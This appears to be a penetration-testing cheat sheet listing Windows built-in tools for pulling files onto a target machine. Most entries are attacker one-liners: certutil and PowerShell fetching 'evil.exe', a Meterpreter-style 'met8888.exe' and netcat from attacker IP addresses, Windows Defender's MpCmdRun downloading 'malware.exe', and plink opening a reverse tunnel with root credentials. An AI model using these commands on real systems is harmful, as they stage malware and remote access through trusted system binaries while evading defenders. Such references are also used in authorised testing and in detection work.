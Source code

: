 # Built in windows utility to download file:
## robocopy
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

Syntax:
```
robocopy <source> <destination> [<file>[ ...]] [<options>]
```
Example:
```
robocopy c:\reports '\\marketing\videos' yearly-report.mov /mt /z
```
1. /mt - multi-threading 
2. /z - restart the transfer in case it's interrupted
## certutil.exe
```
certutil.exe -urlcache -split -f http://10.10.0.101/evil.exe safe.exe
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

## Powershell
```
(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","c:\nc.exe")	
wget "http://10.10.10.10/nc.exe" outfile "c:\nc.exe"	
```


# Download a file using the Windows Defender CLI Tool
```
C:\ > "C:\ProgramData\Microsoft\Windows Defender\platform\<version-number>\MpCmdRun.exe" -DownloadFile -url http://website.com/malware.exe -path C:\\users\\malware.exe
```
```
C:\ > "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url http://website.com/malware.exe -path C:\\users\\malware.exe
```

# Plink.exe
```
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.110
```
### Usage
```Usage: plink [options] [user@]host [command]                                                                                                                                                                                               
       ("host" can also be a PuTTY saved session name)                                                                                                                                                                                     
Options:                                                                                                                                                                                                                                   
  -V        print version information and exit                                                                                                                                                                                             
  -pgpfp    print PGP key fingerprints and exit                                                                                                                                                                                            
  -v        show verbose messages                                                                                                                                                                                                          
```
